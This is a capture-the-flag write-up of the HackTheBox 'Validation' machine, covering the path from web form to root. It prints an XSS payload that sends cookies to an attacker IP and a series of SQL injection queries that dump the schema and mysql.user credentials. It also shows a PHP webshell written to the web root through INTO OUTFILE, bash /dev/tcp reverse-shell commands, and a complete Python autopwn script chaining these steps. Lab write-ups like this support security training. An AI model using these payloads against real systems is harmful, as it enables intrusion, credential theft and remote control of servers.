

# Validation - Writeup

**Date**: 15/06/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation)

---

Let’s start testing the connection with the target machine:



Now, let’s scan the TCP Ports of the target machine:


There are 4 open ports: 22 (ssh), 80 (http), 4566 (kwtc), 8080 (http-proxy).

Let’s try to gather more info of the services running in these ports:


The port 4566 doesn’t seem to be a kwtc service…

Let’s do a whatweb scan on the http services ports:


Ok, let’s see how the website hosted on port 80 looks:


A simple form where you can input a username, select a country and add your entry clicking on Join Now button.

Let’s do a test using angellm as username and Spain as country.


The website displays it now. Interesting. Let’s try some payloads…


Ok, it seems to be vulnerable to XSS.


The website is setting a cookie… Maybe we can use the XSS to try to grab the session cookie?

Th`<script>fetch('http://10.10.14.234?cookie=' + btoa(document.cookie) );</script>`

Let’s open a http server in our machine and send the payload:


I have set the value of the cookie with the one obtained by the script but nothing happened after reloading the page. Let’s enumerate the directories:


It discovered css and js directories, also discovered a server-status directory we have no permissions to access to.

Let’s enumerate .txt and .php files:


The only php file we have not visited yet is the config.php and is empty… Let’s go back to the form.

I will intercept a request and this time I’ll modify the country:

`username=ll&country='`


Mmm… fatal error. Sounds good to me. Maybe we have an error based SQL injection? Let’s see…

`username=ll&country=' UNION SELECT 1 -- -`


`username=ll&country=' UNION SELECT 1,2 -- -`


`' UNION SELECT database()--`


The database name is `registration`. Let’s see the tables of that database:

`' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'registration' -- -`


There is only one table called also `registration` let’s find the columns name of the table:

`' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'registration' -- -`


Very interesting! There are 4 columns: `username`, `userhash`, `country` and `regtime`. Let’s try to extract all the usernames and userhash:


Mmm… not very interesting, `fff` and `ll` are the usernames I used to test the SQLi, and there is no other username there…

Let’s list all databases:

`' UNION SELECT concat(schema_name) FROM information_schema.schemata -- -`


`' UNION SELECT concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='mysql' -- -`


`' UNION SELECT concat(column_name) FROM information_schema.COLUMNS WHERE table_name='user' -- -`


`' UNION SELECT group_concat(User,':',Password SEPARATOR '<br>') FROM mysql.user -- -`


I tried to log in via ssh using that password with no success. Let’s se if we can inject content using the SQLi:

`' UNION SELECT "Prueba de contenido" into outfile '/var/www/html/prueba.txt' -- -`


Yeah, we can.

Let’s try to upload a php webshell!

`' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/ws.php' -- -`


Now we can send commands as www-data. Let’s try to obtain a reverse shell to operate more easily:

`http://10.129.85.205/ws.php?cmd=bash -i >& /dev/tcp/10.10.14.234/443 0>&1`


We didn’t get a reverse shell. Maybe because it is not URL-Encoded? Let’s try it:

`http://10.129.85.205/ws.php?cmd=bash -i >%26 %2Fdev%2Ftcp%2F10.10.14.234%2F443 0>%261`

Same results. In cases like this one, sometimes it’s necessary to execute the command like this:

`http://10.129.85.205/ws.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.234/443 0>&1"`

But URL-Encoded:


Another way to gain access would be to script an autopwn in python like this one and executing it:

```bash
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) !=3:
    log.failure("Uso: %s <ip-address> filename" %sys.argv[0])
    sys.exit(1)

# Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url="http://%s/" % ip_address
lport = 443

def createFile():

    data_post = {
        'username' : 'whatever',
        'country' : """'UNION SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/%s' -- -""" %(filename)
    }

    r = requests.post(main_url, data=data_post)

def getAccess():
    data_post = {
        'cmd' : "bash -c 'bash -i >& /dev/tcp/10.10.14.234/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data_post);

if __name__=='__main__':

    createFile()

    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```


Ok, so we are logged as www-data, let’s see what can be found:


Config files sometimes have credentials inside, let’s cat it:


Yeah! There are some credentials here: `uhc:uhc-9qual-global-pw`


Investigating a little more we got the user flag.

Now we have to escalate privileges:


There is no user named as uhc. Maybe is root reusing the password?


Yeah, it is. And that’s how we obtain the root flag!